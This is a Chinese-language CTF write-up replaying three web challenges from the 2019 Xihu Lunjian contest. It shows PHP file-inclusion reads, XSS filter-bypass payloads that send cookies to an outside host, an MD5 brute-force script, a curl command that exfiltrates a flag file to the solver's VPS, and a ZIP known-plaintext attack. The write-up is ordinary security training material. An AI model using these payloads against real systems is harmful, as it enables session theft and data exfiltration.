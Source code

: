 ```yaml
---
title: 2019 西湖论剑 Web 复现
key: 5ba2d645a56fdc3b38426d61461ed05e
  - Writeup
  - CTF
date: 2019-04-25 21:02:00
---
```

蒟蒻的复现记录~

<!--more-->

## babyt3

babyt3(Ubuntu 16.04 php7.0) 61.164.47.198:10000

简单探测存在以下文件:index.php、dir.php、/.DS_Store。


![](/assets/images/move/1554987118360-7e79c95d-baaf-417a-bddd-7e92d5e94ca6.png)

由`include $_GET['file']`猜测存在文件包含~ 尝试PHP伪协议读取源代码：

```bash
http://61.164.47.198:10000/?file=php://filter/read=convert.base64-encode/resource=index.php
```

- index.php

```php
<?php
$a = @$_GET['file'];
if (!$a) {
	$a = './templates/index.html';
}
echo 'include $_GET[\'file\']';
if (strpos('flag',$a)!==false) {
	die('nonono');
}
include $a;
?>

<!--hint: ZGlyLnBocA== --> //-> dir.php
```

- dir.php

```php
<?php
$a = @$_GET['dir'];
if(!$a){
$a = '/tmp';
}
var_dump(scandir($a));
```

借助`dir.php`可以进行目录遍历，查找flag的位置。

```bash
//http://61.164.47.198:10000/dir.php?dir=/
array(25) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(16) "ffffflag_1s_Her4" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(7) "my_init" [14]=> string(10) "my_service" [15]=> string(3) "opt" [16]=> string(4) "proc" [17]=> string(4) "root" [18]=> string(3) "run" [19]=> string(4) "sbin" [20]=> string(3) "srv" [21]=> string(3) "sys" [22]=> string(3) "tmp" [23]=> string(3) "usr" [24]=> string(3) "var" }
```

确定`flag`位于**/ffffflag_1s_Her4**，利用文件包含进行读取.

```bash
//http://61.164.47.198:10000/?file=php://filter/read=convert.base64-encode/resource=/ffffflag_1s_Her4
ZmxhZ3s4ZGMyNWZkMjFjNTI5NThmNzc3Y2U5MjQwOWUyODAyYX0=
//flag{8dc25fd21c52958f777ce92409e2802a}
```

## Breakout

![](/assets/images/move/1554988767996-25426f38-a16e-47a3-97d2-d53f27b6de8b.png)

任意账号密码均可登录，个人中心页面如下：

![](/assets/images/move/1554989062396-72a5539d-b01a-4c26-9391-b5c05e0db9c2.png)

- `message`页面可进行留言，经探测对`script`等关键字进行了过滤，替换为`:) `。
- `report`页面用于提交BUG，管理员会加上用户的token去登陆查验。
- `exec`页面可执行命令，不过需要以管理员的身份（token）。

这样一来攻击思路就很明显了,绕过XSS过滤，在`message`构造包含恶意脚本的留言页面提交至`report`，进而获取管理员`token`用于获取在`exec`以管理员的身份执行命令获取flag。

### XSS绕过

- Payload1

在test.html中写入script>document.location="http://example.com/"+btoa(document.cookie) </script>

```html
<link rel=import href=//example.com/test.html other=
```

- Payload2

HTML实体编码绕过关键字过滤, HTML标签内的实体编码会自动解码。

> 1.进制编码:&#xH;(16进制格式)、&#xD;(10进制形式)，最后的分号可以不要。
> 2.HTML实体编码。

```html
<iframe
src="javascrip&#x74;:location.href='vps_ip'+escape(top.document.cookie)">
</iframe>
```

- Payload3 

换行符绕过

```html
<img src=x onerror
=prompt(1)>
```

### MD5截断比较

这里采用牺牲空间换去时间的方法，生成大量MD5值来进行匹配符合的条目。

```python
//生成脚本
# -*- coding: utf-8 -*-
import hashlib
sum = []
j = 0
f = open("gen_md5.txt", "a")
for i in xrange(1000000000):
    tmp = (hashlib.md5(str(i)).hexdigest(),i)
    sum.append(tmp)
    j = j+1
    if(j==10000000):
        for i in sum:
            f.write("{0} {1}".format(i,"\n"))
        j=0
        sum = []
f.close()
//检索脚本
# -*- coding: utf-8 -*-
f = open("gen_md5.txt", "r")
for line in f.readlines():
    if line[2:8] == 'c99dc2':
        print(line)
        break
```

提交获取管理员cookie：

```php
PHPSESSID=slsqh6lgqgtgkhfhitj327r7p7;token=ISMvKXpXpadDiUoOSoAfww==; admin=admin_!@@!_admin_admin_hhhhh
```


### exec

使用管理员cookie登录后可执行命令，但没有回显，尝试dns解析带出数据。

```payload
curl http:your_vps_ip:port/?$(cat /flag.txt|base64)
//ZmxhZ3tmYTUxMzlwYWU4MDhjNzA0ODVkZDVmMzAzMzcwMjZkNnO=
//flag{fa5139pae808c70485dd5f30337026d6}
```

## 猜猜flag是什么

![](/assets/images/move/1554998036810-320186e6-f98a-4349-a516-2a4d41ac42fb.png)

探测到`.DS_Store`文件，进行还原:

![](/assets/images/move/1554998298013-b7c0a254-8e1b-4664-91e5-ba73a51e17a0.png)

访问`/e10adc3949ba59abbe56e057f20f883e/`:

![](/assets/images/move/1554998403503-f7d8560e-b7c2-4751-9ca0-294672d223b2.png)

在此目录下发现`.git`泄露，使用Githack进行还原。

![](/assets/images/move/1555032494963-e02984c3-1570-47e5-893e-6af105072e12.png)

加密压缩包`BackupForMySite.zip`中包含`index.php`、`lengzhu.jpg`以及文件`hint`。已知`index.php`、`lengzhu.jpg`文件，我们可以对压缩包进行明文攻击。

> 简单来说，ZIP明文攻击就是利用已知文件找加密密钥，利用密钥来解锁其它加密文件，因为ZIP压缩包里的所有文件都是使用同一个加密密钥来加密的。

压缩文件`index.php`、`lengzhu.jpg`作为已知明文，使用`APCHPR`进行明文攻击。

![](/assets/images/move/1555033592861-03d3fa8f-cd7a-4ccb-910b-b0bfda917693.png)

成功获取密匙，解压得到hint:

```bash
code is 9faedd5999937171912159d28b219d86
well ok ur good...By the way, flag saved in flag/seed.txt 
```

提交code~

```bash
http://61.164.47.198:10002/?code=9faedd5999937171912159d28b219d86
```

![](/assets/images/move/1555033816792-8357863c-c4ea-4c3d-8962-9d8b4757c1c0.png)

可知flag在flag/seed.txt目录下，code=334579419是以seed为种子的播种随机数，可由code进行种子爆破得到seed~

![](/assets/images/move/1555034260821-5c126ad5-9e3b-4ded-b9eb-84341f609989.png)

在`http://61.164.47.198:10002/flag/814073.txt`获取到flag{0730b6193000e9334b12cf7c95fbc736}。
